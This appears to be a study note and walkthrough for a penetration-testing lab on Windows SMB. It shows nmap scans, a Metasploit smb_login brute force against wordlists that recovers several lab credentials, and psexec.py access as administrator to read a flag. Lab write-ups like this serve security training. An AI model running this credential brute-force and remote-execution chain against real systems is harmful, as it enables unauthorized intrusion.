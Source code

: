 ```yaml
---
up: "[[Exploiting Windows Vulnerabilities]]"
---
```


# 🧪 Windows SMB Server PSExec

## Overview

A Kali GUI machine and a target machine running a vulnerable SMB service are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the SMB service using the tools available on the Kali machine and then exploit the vulnerability using the Metasploit framework. You need to find valid credentials to access the SMB service and abuse the service with available SMB Metasploit exploitation modules.

**Objective:** Exploit the SMB service to get a meterpreter on the target and retrieve the flag!

Instructions:

- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
- The IP address of the target machine is mentioned in the file “/root/Desktop/target”
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1
- Dictionaries to use:
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

## Solution

```bash
nmap 10.2.18.60
Starting Nmap 7.70 ( https://nmap.org ) at 2024-03-25 22:03 IST
Nmap scan report for 10.2.18.60
Host is up (0.0035s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.61 seconds
```

```bash
nmap -sC -sV -p 445 10.2.18.60
Starting Nmap 7.70 ( https://nmap.org ) at 2024-03-25 22:03 IST
Nmap scan report for 10.2.18.60
Host is up (0.0025s latency).

PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-03-25 22:04:04
|_  start_date: 2024-03-25 22:00:48

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.43 seconds
```

smb scripts scan:

```bash
nmap -p 445 --script smb-protocols 10.2.18.60
Starting Nmap 7.70 ( https://nmap.org ) at 2024-03-25 22:09 IST
Nmap scan report for 10.2.18.60
Host is up (0.0023s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-protocols: 
|   dialects: 
|     2.02
|     2.10
|     3.00
|     3.02
|_    3.11

Nmap done: 1 IP address (1 host up) scanned in 6.46 seconds
```

anonymous login:

```bash
smbmap -u guest -p "" -d . -H $TRG
[+] Finding open SMB ports....
[!] Authentication error on 10.2.18.60
[!] Authentication error on 10.2.18.60
```

```bash
msf5 > search smb_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_login                   normal  No     SMB Login Check Scanner


msf5 > use 0
msf5 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > setg RHOSTS 10.2.18.60
RHOSTS => 10.2.18.60
msf5 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/smb/smb_login) > set PASS_FiLE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FiLE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/smb/smb_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/smb/smb_login) > run

[+] 10.2.18.60:445        - 10.2.18.60:445 - Success: '.\sysadmin:samantha'
[+] 10.2.18.60:445        - 10.2.18.60:445 - Success: '.\demo:victoria'
[+] 10.2.18.60:445        - 10.2.18.60:445 - Success: '.\auditor:elizabeth'
[+] 10.2.18.60:445        - 10.2.18.60:445 - Success: '.\administrator:qwertyuiop' Administrator
[*] 10.2.18.60:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

The `Administrator` account looks the most promising:

```bash
psexec.py administrator@10.2.18.60 cmd.exe
...
C:\Windows\system32> type C:\flag.txt
e0da81a9cd42b261bc9b90d15f780433
```
